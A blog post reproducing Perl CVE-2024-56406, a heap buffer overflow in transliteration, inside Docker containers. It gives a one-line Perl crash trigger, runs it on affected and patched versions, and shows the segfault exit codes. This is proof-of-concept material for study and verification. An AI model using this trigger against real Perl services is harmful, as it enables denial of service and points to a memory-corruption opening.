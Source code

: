 ```yaml
---
title: "CVE-2024-56406"
date: 2025-05-17T00:00:00+00:00
description: "Discussion about the CVE-2024-56406."
type: post
image: images/blog/cve-2024-56406.png
author: Mohammad Sajid Anwar
tags: ["perl"]
---
```


#### **DISCLAIMER:** Image is generated using `FREE` version of `ChatGPT`.
***

<br>

In the earlier [**post**](/blog/cve-in-perl) where I discussed `CVE` in general and re-created `CVE-2018-18311`, `CVE-2023-31486` and `CVE-2023-47038`.

Recently I found out about [**CPAN Security Group**](https://security.metacpan.org) which is the `CVE Numbering Authority (CNA)` for `CPAN` and `Perl`.

At the `Perl Toolchain Summit 2025`, I had the honour to meet some of the members of the group i.e. ` Stig Palmquist` and `Breno Oliveira`.

Continuing with the series, today I am talking about one more `CVE-2024-56406`.

This particular one affected `v5.34`, `v5.36`, `v5.38` and `v5.40`.

It's about heap buffer overflow when transliterating non-ASCII bytes.

According to the [**official document**](https://lists.security.metacpan.org/cve-announce/msg/28708725), the affected versions are below:

<br>

```bash
    from 5.40.0 until 5.40.2
    from 5.38.0 until 5.38.4
    from 5.36.0 through 5.36.3
    from 5.34.0 through 5.34.3
```

<br>

I will use the similar pattern as before and create docker container with affected `Perl` versions.

In that, I'll also add couple of good ones as well.

This is my docker configuration file: `docker-compose.yml`

<br>

```bash
version: '3.8'

services:
  perl_5_34_0:
    container_name: perl_5_34_0
    image: perl:5.34.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_36_0:
    container_name: perl_5_36_0
    image: perl:5.36.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_0:
    container_name: perl_5_38_0
    image: perl:5.38.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_4:
    container_name: perl_5_38_4
    image: perl:5.38.4
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_0:
    container_name: perl_5_40_0
    image: perl:5.40.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_2:
    container_name: perl_5_40_2
    image: perl:5.40.2
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G
```

<br>

In summary, I am creating the following services that would throw error as expected:

<br>

```bash
    perl_5_34_0
    perl_5_36_0
    perl_5_38_0
    perl_5_40_0
```

<br>

There are two more services `perl_5_38_4` and `perl_5_40_2` which should be safe and unaffected.

<br>

Finally it's time to re-create the issues.

<br>

```bash
$ docker-compose run -rm perl_5_34_0
Creating cve-2024-56406_perl_5_34_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_36_0
Creating cve-2024-56406_perl_5_36_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_38_0
Creating cve-2024-56406_perl_5_38_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_40_0
Creating cve-2024-56406_perl_5_40_0_run ... done
ERROR: 139
```

<br>

If you noticed, the exit code is `139` in the affected services.

As we know, `Exit Code = Signal Number + 128` and the `segfault` signal number is `11`.

And the good ones are:

<br>

```bash
$ docker-compose run -rm perl_5_38_4
Creating cve-2024-56406_perl_5_38_4_run ... done
If you see this, Perl didn't crash!!
```

<br>

```bash
$ docker-compose run -rm perl_5_40_2
Creating cve-2024-56406_perl_5_40_2_run ... done
If you see this, Perl didn't crash!!
```

<br>

***

<br>

`Happy Hacking !!!`
